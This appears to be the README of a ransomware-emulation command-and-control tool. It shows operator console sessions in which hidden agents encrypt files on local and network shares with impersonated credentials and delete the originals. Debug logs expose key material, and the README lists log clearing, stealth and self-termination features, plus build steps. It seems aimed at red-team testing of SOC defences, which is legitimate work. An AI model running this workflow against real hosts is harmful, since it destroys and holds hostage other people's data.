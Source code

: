 # Base

## Protocol
- 2-way Command JSON
- HTTP/HTTPs for now
- Agent pub sub.
- Agent jitter
- Hot reloading of connectivity endpoints

## Operation

```
$ runbase
```

List checked in agents:
- Active : accepted for interaction
- Pending: not yet accepted for interaction

```
no agent: > activate
Agent (active):

Agents (pending):
2e1bb2f0-c20a-4eb6-baa4-18832af621c2 2021-02-21 12:02:55.9616266 -0600 CST
```

Activate agent content
```
no agent: > activate 2e1bb2f0-c20a-4eb6-baa4-18832af621c2
```

Get agent info 
```
no agent:activate 2e1bb2f0-c20a-4eb6-baa4-18832af621c2 > heartbeat
[2e1bb2f0-c20a-4eb6-baa4-18832af621c2]
        Host: 555-LT-X0874 / 555-LT-X0874, PID: 25216 (A:false), User: NA\user01
```

Set agent log verbosity
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > logs set debug
```

Set policy masterkey
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > masterkey
? Please type your masterkey [? for help] *******
masterkey:  *******
? OK to send? Yes
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:masterkey > 
```

Policy load and run
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > polexec
? Choose source of payload: file                                 
? file to get payload from: C:\Users\user01\source\repos\FileConnector\configs\policy-full.json
Processing paylaod from file: C:\Users\user01\source\repos\FileConnector\configs\policy-full.json
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:polexec > 
```

Get run summary 
```txt
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > summary
[2e1bb2f0-c20a-4eb6-baa4-18832af621c2]
Execution Report for Site ID 2e1bb2f0-c20a-4eb6-baa4-18832af621c2
{
  "SiteId": "2e1bb2f0-c20a-4eb6-baa4-18832af621c2",
  "HostTaskSummaries": [
    {
      "HostIdent": "HostA",
      "FileTaskSummaries": [
        {
          "PreImageName": "\\Users\\user01\\Downloads\\Share\\file5.log",
          "PostImageName": "\\Users\\user01\\Downloads\\Share\\file5.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "BA0D750160BB0ED0136BC1F5E35B3083ABB1B2107560580325F76C43141F925F",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:11 PM",
          "SymKey": null,
          "Operation": 1
        },
        {
          "PreImageName": "X:\\file6.log",
          "PostImageName": null,
          "PreImageHash": "",
          "PostImageHash": null,
          "PreImageSize": 0,
          "PostImageSize": 0,
          "ImageTime": null,
          "SymKey": null,
          "Operation": 1
        }
      ]
    },
    {
      "HostIdent": "HostB",
      "FileTaskSummaries": [
        {
          "PreImageName": "\\\\555-LT-X0874\\Share\\file1.log",
          "PostImageName": "\\\\555-LT-X0874\\Share\\file1.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "EA5977B74BDA7AC327458618807BAFF3F2CA605BCC7EAA1303F7175E645104FC",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:12 PM",
          "SymKey": null,
          "Operation": 1
        },
        {
          "PreImageName": "\\\\555-LT-X0874\\Share\\file2.log",
          "PostImageName": "\\\\555-LT-X0874\\Share\\file2.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "CFAAD8CD63AD995A9647053F3C5211A90C39DE55DD405937813F745A4DA0C3A2",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:13 PM",
          "SymKey": null,
          "Operation": 1
        },
        {
          "PreImageName": "\\\\555-LT-X0874\\Share\\file4.log",
          "PostImageName": "\\\\555-LT-X0874\\Share\\file4.log.enc",
          "PreImageHash": "B3DAC8BC11506D42D4DFE89B7F73B988D0C754301F0CF5F301DF6B62A7CFC2FD",
          "PostImageHash": "20FCE8E8F624DECB7592487EEEA9D238D9E314A28E99E6B560ED568445D776C2",
          "PreImageSize": 1002,
          "PostImageSize": 1040,
          "ImageTime": "2/21/2021 12:06:14 PM",
          "SymKey": null,
          "Operation": 1
        }
      ]
    }
  ]
}
```

Get Logs 
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > logs get
Getting logs ...

2021.02.21 12:06:10.684 Debug   Loading config from network
2021.02.21 12:06:10.684 Debug   Deserializing config
2021.02.21 12:06:10.693 Debug   Config tree populated
2021.02.21 12:06:10.695 Debug   Loading configuration tree
2021.02.21 12:06:10.695 Debug   MasterKey: $RNS$V1$10000$8LIbLgrCtk66pBiDKvYhwpFwvzpYKz6jWaUGh9kV89jIJwOL, SiteID: 2e1bb2f0-c20a-4eb6-baa4-18832af621c2
2021.02.21 12:06:10.695 Debug   Mapping hosts to authentication
2021.02.21 12:06:10.743 Debug   MasterKeyHash: $RNS$V1$10000$8LIbLgrCtk66pBiDKvYhwpFwvzpYKz6jWaUGh9kV89jIJwOL
2021.02.21 12:06:10.743 Debug   Iterating over hosts
2021.02.21 12:06:10.743 Debug
 [[ Entering host : HostA (555-LT-X0874) ]]
2021.02.21 12:06:10.743 Debug   Auth: Local
2021.02.21 12:06:10.743 Debug   Building local user impersonation NetworkCredential
2021.02.21 12:06:10.743 Debug   Iterating over files in host
2021.02.21 12:06:10.753 Debug   Encrypting \Users\user01\Downloads\Share\file5.log => \Users\user01\Downloads\Share\file5.log.enc key: 9993c359-c58a-4c11-8cd0-f4c4695be28f
2021.02.21 12:06:10.754 Debug   Encrypting file \Users\user01\Downloads\Share\file5.log -> \Users\user01\Downloads\Share\file5.log.enc
2021.02.21 12:06:10.754 Debug   File \Users\user01\Downloads\Share\file5.log found
2021.02.21 12:06:11.705 Error   File X:\file6.log not found
2021.02.21 12:06:11.705 Debug   Unable to properly encrypt file: X:\file6.log
2021.02.21 12:06:11.705 Debug
 [[ Entering host : HostB (555-LT-X0874) ]]
2021.02.21 12:06:12.239 Debug   Derived Key: 0D-BE-C1-99-9E-D9-45-D4-BB-C9-4C-D4-83-2E-50-8A-C8-3A-9B-E3-D8-A7-BD-C9-56-66-8A-93-87-67-71-64
2021.02.21 12:06:12.688 Debug   Wrote salt 32-0D-E6-F0-6F-EA-E1-76-FA-1C-1C-E8-96-E8-49-89-7B-B4-06-AF-4C-85-D1-51-49-E5-C8-86-91-E6-C3-DA of size: 32
2021.02.21 12:06:12.702 Debug   Flushed final block
2021.02.21 12:06:12.709 Debug   Encryption routine success
2021.02.21 12:06:12.709 Debug   Deleting original file \\555-LT-X0874\Share\file1.log
2021.02.21 12:06:12.718 Debug   Encrypting \\555-LT-X0874\Share\file2.log => \\555-LT-X0874\Share\file2.log.enc key: 6fd3c359-c58a-4c11-8cd0-f4c4695be28f
2021.02.21 12:06:14.613 Debug   Built networkPath as \\555-LT-X0874
2021.02.21 12:06:15.095 Debug   Decrypted credentials
2021.02.21 12:06:15.096 Debug   Building supplied user impersonation NetworkCredential
2021.02.21 12:06:15.096 Info    Connecting to \\555-LT-X0874
2021.02.21 12:06:15.105 Error   Win32Exception: (0): Cannot connect to System.ComponentModel.Win32Exception (0x80004005): Error connecting to remote share
   at FileConnector.ConnectToSharedFolder..ctor(String networkName, NetworkCredential credentials) in C:\Users\user01\source\repos\FileConnector\FileConnector\Driver.cs:line 67
   at FileConnector.ServerTasks.Impl.TaskRunPolicy.Run() in C:\Users\user01\source\repos\FileConnector\FileConnector\ServerTasks\TaskImpl\TaskRunPolicy.cs:line 142:
2021.02.21 12:06:15.106 Debug   Sleeping for 5000
2021.02.21 12:06:30.182 Debug   => Resource /summary , method: Post
2021.02.21 12:06:30.183 Debug   Sleeping for 5000
```

Reveal agent to SOC
```
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > agent self unhide console
Unhiding console ...
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:agent self unhide console > 
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > 
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > agent self unhide message
Unhiding message ...
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:agent self unhide message > 
2e1bb2f0-c20a-4eb6-baa4-18832af621c2: > 
```
Terminate remote agent 
```txt
2e1bb2f0-c20a-4eb6-baa4-18832af621c2:agent self unhide message > agent self terminate
? Sure terminate agent? This is irreversible. Yes
```

## Examples (Runtime)
- [Agent running](../images/agent-running.png)
- [Agent clear memory logs](../images/agent-clear-remote-memory-0buffer-logs.png)
- [Agent send policy summary](../images/agent-sent-policy-output.png)
- [Agent set masterkey on policy](../images/agent-set-masterkey.png)
- [Agent self termination](../images/agent-terminated.png)
- [Agent reveals presence after encryption](../images/agent-unhide-message.png)
- [Agent up verbosity level](../images/agent-up-verbosity-memory.png)
- [Asset encryption](../images/asset-encrypted.png)
- [Agent embedded policy - lights out](../images/embed-policy.png)
- [Operator help system](../images/predictive-command-help.png)

# Dev/Build
Prerequisites:
- Reasonably latest Golang dist (16+)
- You should have `export GOROOT` pointing to GO SDK (e.g. `/usr/local/go-17.1/`).
- You should have `export GOPATH` pointing to where your Go workspace (e.g. `/User/dev/go`)

Compile code:
1. Clone the repo: `got clone <this repo path>`
2. Navigate to the server component: `cd racketeer/server`
3. Build the code: `GO111MODULE=on go build -o bin/server.exe`

